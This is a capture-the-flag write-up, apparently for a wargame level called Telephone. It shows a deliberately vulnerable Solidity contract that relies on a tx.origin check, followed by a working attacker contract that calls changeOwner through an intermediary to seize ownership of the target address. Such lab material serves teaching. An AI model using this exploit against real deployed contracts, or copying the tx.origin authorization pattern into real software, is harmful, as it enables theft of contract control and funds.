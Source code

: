 Claim ownership of the contract below to complete this level.

  Things that might help

-   See the Help page above, section "Beyond the console"

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```



**SOLUTION:**

The solution here is to call the `changeOwner` fucntion, which is initiated in the challenge contract, from another contract that we write on our own. 

To solve this challenge, we have to understand how `tx.origin` works. When you call a contract (A) function from within another contract (B), the msg.sender is the address of B, not the account that you initiated the function from, which is `tx.origin`. Deploy the following contract on remix and call the `attack` function to take over the victim contract.

```
pragma solidity ^0.8.0;

contract AttackTelephone {
    address victim = 0x5fD8a73D2F2BAb543A2a42bDEe3688a05f40829b;

    function attack() public {
        bytes memory payload = abi.encodeWithSignature("changeOwner(address)", msg.sender);
        (bool success, ) = victim.call{value: 0}(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```

We verify that we solved the challenge by clicking the "Submit Instance" button, verifying the transaction, through Metamask, and waiting to be confirmed.


